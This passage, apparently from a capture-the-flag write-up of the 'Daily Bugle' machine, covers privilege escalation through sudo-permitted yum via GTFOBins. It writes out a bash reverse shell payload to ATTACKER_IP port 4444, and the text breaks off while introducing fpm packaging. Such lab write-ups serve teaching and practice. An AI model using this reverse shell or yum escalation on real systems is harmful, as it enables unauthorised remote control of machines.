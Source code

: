 ![user flag](/images/dailybugle/user-flag.png)

## Root
> What are `jjameson`'s `sudo` permissions?
{: .prompt-tip }

Since we're a new user we should see what privileged
commands we can run

```bash
sudo -l
```

![sudo permissions](/images/dailybugle/sudo-perms.png)

We can run `/usr/bin/yum` as `root` without a password.
By checking
[GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo){:target="_blank"}{:rel="noopener noreferrer"}
we see a way to run arbitrary commands with `yum` run
through `sudo`!

> This will take some preparation on the attacking machine. 
{: .prompt-tip }

First let's create
a file which will run our commands. In this case I
wrote this reverse shell payload to `rev.sh`


```bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Next we need to install
[fpm](https://github.com/jordansissel/fpm){:target="_blank"}{:rel="noopener noreferrer"}
to create a package. We can do this with `ruby` by
running
